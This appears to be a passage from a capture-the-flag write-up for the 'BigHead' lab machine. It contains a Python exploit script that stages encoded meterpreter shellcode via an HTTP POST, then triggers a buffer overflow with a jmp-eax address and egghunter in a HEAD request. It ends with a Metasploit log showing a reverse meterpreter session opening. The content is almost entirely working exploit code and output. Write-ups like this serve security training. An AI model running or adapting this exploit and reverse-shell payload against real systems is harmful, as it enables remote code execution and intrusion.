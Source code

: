 ```python
payload += "\x11\x2e\x5a\x22\x09\x33\x67\xfc\xa2\x87\x13\xff\x62"
payload += "\xd6\xdc\xac\x4a\xd7\x2e\xac\x8b\xdf\xd0\xdb\xe5\x1c"
payload += "\x6c\xdc\x31\x5f\xaa\x69\xa2\xc7\x39\xc9\x0e\xf6\xee"
payload += "\x8c\xc5\xf4\x5b\xda\x82\x18\x5d\x0f\xb9\x24\xd6\xae"
payload += "\x6e\xad\xac\x94\xaa\xf6\x77\xb4\xeb\x52\xd9\xc9\xec"
payload += "\x3d\x86\x6f\x66\xd3\xd3\x1d\x25\xbb\x10\x2c\xd6\x3b"
payload += "\x3f\x27\xa5\x09\xe0\x93\x21\x21\x69\x3a\xb5\x30\x7d"
payload += "\xbd\x69\xfa\xee\x43\x8a\xfa\x27\x80\xde\xaa\x5f\x21"
payload += "\x5f\x21\xa0\xce\x8a\xdf\xaa\x58\x99\x08\xa1\xbf\x89"
payload += "\x34\xb5\xbf\x19\xb1\x53\xef\xc9\x91\xcb\x50\xba\x51"
payload += "\xbc\x38\xd0\x5e\xe3\x59\xdb\xb5\x8c\xf0\x34\x63\xe4"
payload += "\x6c\xac\x2e\x7e\x0c\x31\xe5\xfa\x0e\xb9\x0f\xfa\xc1"
payload += "\x4a\x7a\xe8\x36\x2d\x84\xf0\xc6\xd8\x84\x9a\xc2\x4a"
payload += "\xd3\x32\xc9\xab\x13\x9d\x32\x9e\x20\xda\xcd\x5f\x10"
payload += "\x90\xf8\xf5\x1c\xce\x04\x1a\x9c\x0e\x53\x70\x9c\x66"
payload += "\x03\x20\xcf\x93\x4c\xfd\x7c\x08\xd9\xfe\xd4\xfc\x4a"
payload += "\x97\xda\xdb\xbd\x38\x25\x0e\xbe\x3f\xd9\xcc\xe9\xe7"
payload += "\xb1\x2e\xaa\x17\x41\x45\x2a\x48\x29\x92\x05\x67\x99"
payload += "\x5b\x8c\x20\xb1\xd6\x41\x82\x20\xe6\x4b\x42\xfc\xe7"
payload += "\x78\x5f\x0f\x9d\xf1\x60\xf0\x62\x18\x05\xf1\x62\x24"
payload += "\x3b\xce\xb4\x1d\x49\x11\x05\x1a\x42\x24\x28\x0b\xc9"
payload += "\x46\x7e\x4b\xd8"

stage1 = "POST /coffee HTTP/1.1\r\n"
stage1 += "Host: dev.bighead.htb\r\n"
stage1 += "Content-Length: {}\r\n\r\n".format(len(payload))
stage1 += payload + "\r\n"
stage1 += "\r\n"

r = remote('172.23.10.186', 8008)
r.send(stage1)
r.recv()

r = remote('172.23.10.186', 8008)
jmp_eax = "f2125062"
align_esp = "505C" # push eax, pop esp
egghunter = "6681caff0f42526a0258cd2e3c055a74efb8773030748bfaaf75eaaf75e7ffe7"
stage2 = align_esp + egghunter + "9090" + jmp_eax

r.send("HEAD /" + stage2 + " HTTP/1.1\r\nHost: dev.bighead.htb\r\n\r\n")
```

When the egghunter is scanning memory, CPU usage goes to 100% for a few seconds.

![](/assets/images/htb-writeup-bighead/exploit/cpu.png)

When it hits the egg, it executes the meterpreter stager and we get a connection:

```
msf5 exploit(multi/handler) > [*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (179808 bytes) to 172.23.10.186
[*] Meterpreter session 1 opened (172.23.10.39:80 -> 172.23.10.186:49804) at 2019-05-03 19:37:47 -0400

msf5 exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...
```
